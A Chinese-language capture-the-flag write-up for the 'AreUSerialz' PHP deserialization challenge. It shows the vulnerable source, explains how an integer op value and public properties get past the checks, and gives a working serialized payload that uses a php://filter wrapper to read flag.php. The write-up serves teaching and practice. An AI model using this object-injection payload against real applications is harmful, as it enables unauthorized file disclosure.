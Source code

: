 ### [网鼎杯 2020 青龙组]AreUSerialz

---

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }
}

```

代码审计---> 

```php
private function read() {
    $res = "";
    if(isset($this->filename)) {
        $res = file_get_contents($this->filename);
    }
    return $res;
}
```

我们发现可以利用这个函数可以执行`output`函数读出flag，

并且`$filename`是可控的，同时我们知道，在`process`函数中保证`$op`的值为2就可以进入执行`read`函数

```php
    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }
```

这个进行的是强比较，我们保证我们的传入值是int类型就可以绕过，执行`2`

还有一个点这个`is_valid`函数明确了我们不能使用字母和数字之外的字符，但是

```php
    protected $op;
    protected $filename;
    protected $content;
```

这个`protected`的量经过反序列化之后就会出现这个的情况，肯定是不行的

![image-20241018111032099](https://gitee.com/bx33661/image/raw/master/path/image-20241018111032099.png)

我们可以修改为`public`

Payload如下：

```php
<?php
# highlight_file(__FILE__);
class FileHandler {
    public $op= 2;
    public $filename="php://filter/read=convert.base64-encode/resource=flag.php";
    public $content;

}

$a = new FileHandler();
echo serialize($a);
```

```
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";N;}
```

![image-20241018111321518](https://gitee.com/bx33661/image/raw/master/path/image-20241018111321518.png)